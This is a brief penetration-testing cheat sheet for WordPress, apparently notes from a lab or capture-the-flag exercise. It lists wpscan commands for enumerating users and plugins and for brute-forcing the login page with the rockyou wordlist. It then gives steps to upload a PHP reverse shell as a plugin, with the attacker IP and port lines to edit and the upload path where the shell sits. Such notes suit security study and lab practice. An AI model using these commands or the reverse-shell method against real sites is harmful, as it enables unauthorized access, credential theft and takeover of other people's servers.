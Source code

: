 Wordpress commands
==================

**Enumerating users**

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -e u

**Bruteforce wp login page**

wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -P /usr/share/wordlists/rockyou.txt --usernames john

**Enumerating wordpress users and plugins**

wpscan --disable-tls-checks --url https://192.168.1.30:12380/blogblog/ --plugins-detection aggressive


Reverse shell exploits
======================

**Exploit Method 1**

If the admin login of wordpress is available, upload the famous php-reverse shell.php as plugin.
Download and Edit the following file content

$ip = '192.168.1.28';  // CHANGE THIS
$port = 443;           // CHANGE THIS

Upload the php file. The file will be available in the following location

https://192.168.1.30:12380/blogblog/wp-content/uploads/


